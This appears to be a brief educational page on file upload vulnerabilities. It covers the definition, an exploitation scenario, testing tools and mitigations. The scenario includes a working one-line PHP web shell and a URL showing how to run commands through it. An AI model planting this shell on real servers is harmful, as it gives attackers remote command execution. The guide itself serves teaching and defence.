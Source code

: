 # File Upload Vulnerabilities

## What is a File Upload Vulnerability?
File upload vulnerabilities occur when an attacker uploads malicious files (e.g., scripts, viruses) to a web application.

## Exploitation Example
### Scenario:
- The application accepts file uploads without validating file types.
- Upload a file named `shell.php` with the following content:
```php
<?php system($_GET['cmd']); ?>
```
- Access the file at http://example.com/uploads/shell.php?cmd=ls.

## Tools for Testing
- Burp Suite: Modify file extensions during upload.
- OWASP ZAP: Check for insecure upload mechanisms.

## Mitigation

- Validate file types and extensions.
- Store uploaded files outside the web root.
- Rename files with a random, non-predictable name.